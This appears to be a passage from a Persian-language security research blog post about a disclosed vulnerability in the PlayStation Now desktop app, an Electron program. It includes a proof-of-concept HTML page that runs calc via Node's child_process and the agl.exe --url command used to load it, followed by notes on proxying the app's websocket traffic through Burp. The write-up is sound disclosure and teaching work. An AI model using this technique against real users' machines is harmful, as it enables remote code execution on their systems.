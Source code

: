 [instrument-electron]: https://blog.doyensec.com/2018/07/19/instrumenting-electron-app.html "Instrumenting Electron Apps for Security Testing - blog.doyensec.com"

برای اطلاعات بیشتر به [این رفرنس][electronjs-hacking-github]
که در قسمت مقدمات معرفی کردم مراجعه کنید.

[electronjs-hacking-github]: https://github.com/doyensec/awesome-electronjs-hacking "Awesome Electron.js hacking & pentesting resources - gitub.com"

### مشکل اول: nodeIntegration
برای تست این فیلد من از روش دوم استفاده کردم. یک صفحه با کد زیر را در یک s3
bucket (سطل؟) ذخیره کردم. این کد ماشین حساب ویندوز را از طریق ماژول `child_process`
اجرا می‌کند.

```html
<html>
    <head>
        <title>This should pop calc on Windows</title>
    </head>
    <body>
        <script>
            require('child_process')
            .exec('calc')
        </script>
    </body>
</html>
```

سپس برنامه را دستی با سویچ `url` اجرا کردم.

```
"C:\Program Files (x86)\PlayStationNow\agl\agl.exe"
    --url=https://[redacted].s3.us-east-1.amazonaws.com/node.html
```

ماشین حساب ویندوز اجرا شد و معلوم که مقدار آن فیلد سِت شده است.

تا اینجا کار خارق العاده ای انجام ندادم، روی کامپیوتر خودم دستی کد اجرا کرده‌ام.
به قول این بلاگ، هنوز در سمت دیگر "دریچه" (یعنی روی کامپیوتر خودم) هستم.

* https://devblogs.microsoft.com/oldnewthing/20060508-22/?p=31283

### مشکل دوم: سرور websocket
همانطور که بالا دیدیم برنامه AGL روی پورت 1235 یک سرور websocket می‌سازد. قدم
بعدی پراکسی کردن برنامه توسط Burp بود. برنامه های بر پایه مرورگر Chromium
معمولاً از [تنظیمات پراکسی
ویندوز](https://parsiya.net/cheatsheet/#shortcut-to-ie-or-wininet-proxy-settings)
استفاده می‌کنند.

#### پراکسی کردن ترافیک برنامه های دسکتاپ
پراکسی کردن ترافیک این برنامه ساده بود ولی همیشه اینگونه نیست. این بحث مفصلی است
و من تا امروز 18 بلاگ درباره آن نوشته‌ام و هنوز جا برای تحقیق زیاد دارد

* https://parsiya.net/categories/thick-client-proxying

بعد از پراکسی کردن این برنامه ها ترافیک زیادی در Burp دیدم. یکی از مشکلات پراکسی
کردن با تنظیمات ویندوز این است که بسیاری از برنامه های دیگر و سرویس های ویندوز
نیز ترافیک خود را به پراکسی می‌فرستند. برای این کار می‌توانید دامنه‌های بی‌ربط
را به TLS Passthrough اضافه کنید تا Burp آنها را پراکسی نکند. برای اطلاعات بیشتر
بلاگ زیر را بخوانید:


[psnow-h1]: https://hackerone.com/reports/873614 "Websites Can Run Arbitrary Code on Machines Running the 'PlayStation Now' Application"
[req-higlighter]: https://portswigger.net/bappstore/11729a617d8d4d3b87c82e34b71885c3
[ea-security]: https://ea.com/security
[^1]: به این هدرها forbidden header می‌گویند.
[cryptogangsta-twitter]: https://twitter.com/CryptoGangsta